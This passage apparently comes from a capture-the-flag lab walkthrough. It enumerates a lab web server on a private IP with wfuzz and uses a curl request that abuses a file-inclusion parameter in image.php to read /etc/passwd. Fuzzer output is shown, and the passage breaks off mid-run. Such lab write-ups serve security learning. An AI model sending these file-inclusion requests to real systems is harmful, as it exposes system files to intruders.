 ```curl http://192.168.20.149/image.php?secrettier360=/etc/passwd```

2019/09/09 18:16:53 Finished

From the output above, another php page brings attention: Image.php

### Wfuzz (Further enumeration)

root\@kali:\~\# wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hc
404 http://192.168.20.149/image.php?secrettier360=FUZZ

\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*

\* Wfuzz 2.4 - The Web Fuzzer \*

\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*

Target: http://192.168.20.149/image.php?secrettier360=FUZZ

Total requests: 949

===================================================================

ID Response Lines Word Chars Payload

===================================================================

000000001: 200 6 L 17 W 197 Ch "\@"

000000002: 200 6 L 17 W 197 Ch "00"

000000003: 200 6 L 17 W 197 Ch "01"

000000004: 200 6 L 17 W 197 Ch "02"

000000005: 200 6 L 17 W 197 Ch "03"

000000006: 200 6 L 17 W 197 Ch "1"

000000007: 200 6 L 17 W 197 Ch "10"

000000008: 200 6 L 17 W 197 Ch "100"

000000009: 200 6 L 17 W 197 Ch "1000"

000000010: 200 6 L 17 W 197 Ch "123"

000000011: 200 6 L 17 W 197 Ch "2"

000000012: 200 6 L 17 W 197 Ch "20"

000000013: 200 6 L 17 W 197 Ch "200"

root\@kali:\~\# wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hc
404 --hw 17 http://192.168.20.149/image.php?secrettier360=FUZZ

\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*

\* Wfuzz 2.4 - The Web Fuzzer \*

```